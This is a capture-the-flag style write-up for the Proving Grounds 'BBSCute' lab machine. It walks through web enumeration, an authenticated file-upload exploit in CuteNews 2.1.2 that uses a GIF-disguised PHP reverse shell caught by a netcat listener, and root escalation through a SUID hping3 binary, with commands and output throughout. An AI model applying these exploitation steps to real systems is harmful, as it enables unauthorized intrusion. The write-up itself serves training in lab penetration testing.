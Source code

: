 ```yaml
---
layout: default
title: BBSCute
parent: Proving Grounds Play
nav_order: 3
---
```


# Scanning

---

```bash
sudo nmap -Pn -p- -sC -sV -T4 -vv --open <ip>
```

# Enumeration

---

## 80 - HTTP

### wfuzz

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY]
└─$ wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-large-files.txt
--hc 404 "http://192.168.222.128/FUZZ"

 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl.
 Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.222.128/FUZZ
Total requests: 37050

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000000001:   200        168 L    396 W      6175 Ch     "index.php"
000000006:   200        63 L     481 W      3119 Ch     "LICENSE.txt"
000000002:   200        5 L      206 W      5182 Ch     "search.php"
000000069:   200        368 L    933 W      10701 Ch    "index.html"
000000063:   200        1 L      16 W       105 Ch      "rss.php"
000000126:   200        0 L      6 W        28 Ch       "print.php"
000000119:   200        0 L      7 W        94 Ch       "captcha.php"
000000110:   200        0 L      12 W       1052 Ch     "favicon.ico"
000000157:   403        9 L      28 W       280 Ch      ".htaccess"
000000379:   200        368 L    933 W      10701 Ch    "."
000000537:   403        9 L      28 W       280 Ch      ".html"
000000668:   200        0 L      6 W        28 Ch       "popup.php"
000000806:   403        9 L      28 W       280 Ch      ".php"
000001564:   403        9 L      28 W       280 Ch      ".htpasswd"
000001830:   403        9 L      28 W       280 Ch      ".htm"
000002100:   403        9 L      28 W       280 Ch      ".htpasswds"
000003551:   200        154 L    752 W      9522 Ch     "example.php"
000004625:   403        9 L      28 W       280 Ch      ".htgroup"
000005172:   403        9 L      28 W       280 Ch      "wp-forum.phps"
000007079:   403        9 L      28 W       280 Ch      ".htaccess.bak"
```

The two most interesting files discovered are _index.php_ and _captcha.php_.

### Register User

_example.php_ shows the domain _cute.calipendula_ so we add that to our _/etc/hosts_ file.

![calipendula](../../../assets/images/ctfs/proving_grounds/bbscute/calipendula.png)

![hosts](../../../assets/images/ctfs/proving_grounds/bbscute/hosts.png)

_index.php_ is a login screen with the ability to register a user.

![index](../../../assets/images/ctfs/proving_grounds/bbscute/index.png)

The registration process requires a captcha value which we can obtain from _captcha.php_

![captcha](../../../assets/images/ctfs/proving_grounds/bbscute/captcha.png)

Login with the registered user.

![login](../../../assets/images/ctfs/proving_grounds/bbscute/login.png)

# Exploitation

---

## CuteNews 2.1.2 - Authenticated Arbitrary File Upload

[Exploit Database CuteNews 2.1.2 exploit for authenticated arbitrary file upload.](https://www.exploit-db.com/exploits/48458)

Copy Pentest Monkey reverse shell to the current directory.
Edit to attach machine parameters and include _GIF8;_ at the top of the script.

![rev_shell](../../../assets/images/ctfs/proving_grounds/bbscute/rev_shell.png)

Upload the file to the registered user's avatar.

![avatar](../../../assets/images/ctfs/proving_grounds/bbscute/avatar.png)

As soon as we regresh the registered user's personal options page we have a reverse shell on our netcat listener.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/bbscute]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [192.168.45.217] from (UNKNOWN) [192.168.222.128] 52280
Linux cute.calipendula 4.19.0-10-amd64 #1 SMP Debian 4.19.132-1 (2020-07-24) x86_64 GNU/Linux
 03:15:02 up  1:27,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

# Post-Exploitation

---

## SUID Permissions

```bash
www-data@cute:/$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/pkexec
/usr/bin/sudo
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/fusermount
/usr/bin/passwd
/usr/bin/mount
/usr/sbin/hping3
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device

```

## Exploit hping3 SUID

![suid](../../../assets/images/ctfs/proving_grounds/bbscute/suid.png)

Simply executing the _hping3_ binary gives us a root shell.

```bash
www-data@cute:/$ /usr/sbin/hping3
hping3> id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)

```
